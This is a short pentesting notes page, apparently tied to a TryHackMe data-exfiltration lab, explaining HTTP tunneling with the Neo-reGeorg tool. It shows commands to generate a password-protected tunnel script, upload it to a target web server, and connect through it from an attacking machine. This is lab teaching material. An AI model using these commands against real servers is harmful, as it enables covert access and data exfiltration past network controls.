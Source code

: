 # HTTP(S) Tunneling

## Theory
Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel!  

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:
```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host them on a webserver.
On the attacking machine we can do:
```bash
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php
```
{% endtab %}
{% endtabs %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}